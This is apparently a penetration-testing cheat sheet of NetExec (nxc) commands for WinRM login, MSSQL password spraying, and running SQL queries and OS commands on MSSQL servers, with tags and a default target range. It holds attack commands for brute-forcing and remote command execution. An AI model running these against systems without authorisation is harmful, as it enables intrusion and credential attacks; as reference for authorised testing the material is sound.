 ## nxc - winrm-auth
#plateform/linux #target/remote #port/5985 #port/5986 #protocol/winrm #cat/ATTACK/CONNECT  

```bash
nxc winrm <ip> -u <user> -p <password>
```

## nxc - mssql password spray
#plateform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/BRUTEFORCE-SPRAY  

```bash
nxc mssql <ip> -u <user.txt> -p <password.txt>  --no-bruteforce
```

## nxc - mssql execute query
#plateform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/EXPLOIT 

```bash
nxc mssql <ip> -u <user> -p '<password>' --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
```

## nxc - mssql execute command
#plateform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/EXPLOIT 

```bash
nxc mssql <ip> -u <user> -p '<password>' --local-auth -x <cmd|whoami>
```

= ip: 192.168.1.0/24
